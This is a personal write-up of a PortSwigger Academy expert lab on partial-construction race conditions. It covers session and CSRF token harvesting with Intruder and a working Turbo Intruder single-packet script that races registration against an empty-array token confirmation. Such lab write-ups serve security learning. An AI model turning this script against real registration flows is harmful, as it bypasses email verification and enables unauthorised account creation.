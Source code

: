 # solution-lab-race-conditions-partial-construction

When I noticed on the evening of Thursday the 9th of August that James
Kettle had published new research, [Smashing the state machine: the true potential of web race conditions](https://portswigger.net/research/smashing-the-state-machine) 
in connection with his talk at Defcon 2023 I was super exited to dig into
it. I was, however, also dead tired from spending the day exploring Vienna,
Austria with my family. So I promised myself I'd get started on the train
home the following day.

By early Saturday afternoon I had already finished the *apprentice* and
*practitioner* labs, and so I settled in for the 
new expert lab, [Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction).

It's tricky, as promised in James' article.

## My approach

One of the first things that I noticed was the phpsessionid cookie, which
is mentioned in both the research paper, and the academy article as being
something which would force requests to be sequential, and which would mask
race condition vulnerabilities. So I decided that my first step would be to
create a valid sessions, and gather the *phpsessionid* and corresponding
anti-csrf tokens.

I wasted about 4 hours trying to figure out how to use Burp macros and how
I could use the extracted variables in Turbo Intruder. I still believe
there's a way to make this work, but I finally decided to be a bit more
pragmatic. The key realisation is this: once a session is generated it's
likely to be valid for some time, possibly the entire lifetime of the lab
instance. So we can just generate them in advance in the stock Intruder.

Here's the request I used in Intruder:

```
GET /register HTTP/2
Host: <host>.web-security-academy.net
X-Count: §xxx§

```

![A simple GET request sent to intruder, and minimised, with an extra header for the dummy payload](resources/intruder_positions.png)

![The payload is just a count](resources/intruder_payloads.png)

![Extract the phpsessionid from all responses](resources/intruder_extract_phpsessionid.png)

![Extract the anti-CSRF token from all responses](resources/intruder_extract_csrf.png)


![The results from Intruder](resources/intruder_results.png)

Here's an example of the Intruder attack output. I just did a select all,
copy in the intruder output and pasted it into a file called
*sessions.txt*:

```
0		200	false	false	3147	wXjqeZ18d0p4orBWLRrws1JxPudsHBYp	jsmKE2V5e6kjazHLnP2SKstCQz1kaUQu	
1	0	200	false	false	3147	wX3xGn0tXJNsy6IO2C1vHE6E6UEu02Mz	1XsQ0sju2ZdexPQAdgeNNF5iXam8Rw52	
2	1	200	false	false	3147	0IrTeheHwCkaHkAZt383a7SS78VmiYMZ	driecRa3rIxHe3EXcngVCSGyy91AqpCH	
3	2	200	false	false	3147	rqpEdsfbYPlHj87T7wnYAj7Lo6ZROkyC	XpxZvfGzRqdlgsPRSiuxPNiArMWMUuI8	
~~~
97	96	200	false	false	3147	LebKIrc0hVlbONMVPVKlJ8H7yjOW3pD1	DJMwwAendB5reAfsZnYczptOefZc4NCV	
98	97	200	false	false	3147	dRr3IcrF804i8BebS3kLjZfUJgy2maVF	06ASdOwrFItk4mM6XEXWIFZQMRyZNXnX	
99	98	200	false	false	3147	IQrkT05XeVPhdhjgolVqvChdWWyaMhHK	wMDEwWqsfFeNkmQ8ZT4b3k97TDYDTqkn	
100	99	200	false	false	3147	H2MIypAPjMvFd5RjxmSThB0P82TwEaCO	HE2tPZ9HWAKMhpc8vWzdMeVDZPPyryJl	
```

Turbo-Intruder request:
```
POST /%s HTTP/2
Host: <host>.web-security-academy.net
Cookie: phpsessionid=%s
Content-Type: application/x-www-form-urlencoded

csrf=%s&username=%s&email=%s%40ginandjuice.shop&password=peter
```

Turbo-Intruder configuration:

```
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for line in open('/tmp/sessions.txt'):
        data = line.split('\t')
        phpsessionid = data[6]
        csrf = data[7]
        username = randstr(8)
        engine.queue(target.req, ['register',       phpsessionid, csrf, username, username], gate='race1', learn=1)
        engine.queue(target.req, ['confirm?token[]=', phpsessionid, csrf, username, username], gate='race1', learn=2)

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')
    #engine.openGate('race2')


def handleResponse(req, interesting):
    table.add(req)

```

![Turbo intruder setup](resources/turbo_intruder_setup.png)

![Turbo intruder results](resources/turbo_intruder_success.png)


